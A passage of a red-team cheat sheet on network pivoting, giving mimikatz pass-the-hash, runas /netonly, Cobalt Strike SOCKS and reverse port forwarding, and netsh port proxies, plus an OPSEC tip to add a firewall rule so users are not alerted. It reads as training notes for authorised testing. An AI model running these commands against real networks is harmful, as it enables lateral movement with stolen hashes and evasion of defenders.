 #### Proxychains netonly or overpass the hash
```
runas /netonly /user:<DOMAIN>\<USER> "C:\windows\system32\mmc.exe C:\windows\system32\dsa.msc"
sekurlsa::pth /user:<USER> /domain:<DOMAIN> /ntlm:<HASH> /run:"C:\windows\system32\mmc.exe C:\windows\system32\dsa.msc"
```

#### Browser
- Install FoxyProxy https://getfoxyproxy.org/
- Configure Proxy IP and port, Username and Password.
- NTLM auth: https://offensivedefence.co.uk/posts/ntlm-auth-firefox/

#### Metasploit
- In Cobalt Strike, go to View > Proxy Pivots, highlight the existing SOCKS proxy and click the Tunnel button. 
- Paste string in msfconsole
- Stop with ```socks stop```

### Manual port forwards
#### Remote port forward netsh
- Requires administrator privs
```
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=<PORT> connectaddress=<TARGET IP> connectport=<TARGET PORT> protocol=tcp
```

#### List forwards netsh
```
netsh interface portproxy show v4tov4
```

#### Remove port forward netsh
```
netsh interface portproxy delete v4tov4 listenaddress=<IP> listenport=<PORT>
```

### Rportfwd
#### Create port forward
- Beacon's reverse port forward always tunnels the traffic to the Team Server and the Team Server sends the traffic to its intended destination, so shouldn't be used to relay traffic between individual machines.
- Does not require administrator privs
- OPSEC: When the Windows firewall is enabled, it will prompt the user with an alert when an application attempts to listen on a port that is not explicitly allowed.  Allowing access requires local admin privileges and clicking cancel will create an explicit block rule. Have to create firewall rule first!
```
powershell New-NetFirewallRule -DisplayName "Test Rule" -Profile Domain -Direction Inbound -Action Allow -Protocol TCP -LocalPort <PORT>

rportfwd <PORT> <IP> <PORT>
```
